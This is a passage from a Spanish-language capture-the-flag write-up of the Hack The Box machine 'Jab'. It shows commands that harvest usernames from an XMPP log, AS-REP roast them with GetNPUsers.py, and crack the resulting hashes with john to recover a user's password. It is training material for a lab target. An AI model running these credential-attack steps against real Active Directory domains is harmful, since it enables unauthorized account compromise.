 ```bash
grep -oP '<value>\K[^<]+@jab.htb(?=</value>)' xmpp.log | sed 's/@jab.htb//g' | sort | uniq > users
```

## Solicitar (TGTs) ASREProast

Como tenemos una lista de usuarios muy extensa, podemos hacer uso de `GetNPUsers`, para solicitar los `TGT` de los usuarios que tengan habilitada la opción `Do not require Kerberos preauthentication`.

```bash
GetNPUsers.py -no-pass -usersfile users jab.htb/ > hashes
```

Esperamos un rato y luego podemos ver que logramos obtener unos `TGTs`.

![](/assets/img/HTB-Jab/8_Jab.png)

Ahora podemos intentar romper esos `hashes` haciendo uso de `hashcat` o `john`.

```bash
john --wordlist=diccionario.txt hash
```
Vemos que para el usuario `jmontgomery` nos logró descifrar la contraseña, vemos que no la podemos usar para conectarnos haciendo uso de `evil-winrm` y por `smb` tampoco hay nada de interés. Pero podemos ver si la credencial es válida para `XMPP`, así que iniciamos sesión allí. Como es un usuario válido, no necesitamos marcar la casilla para crear un nuevo usuario.

![](/assets/img/HTB-Jab/9_Jab.png)
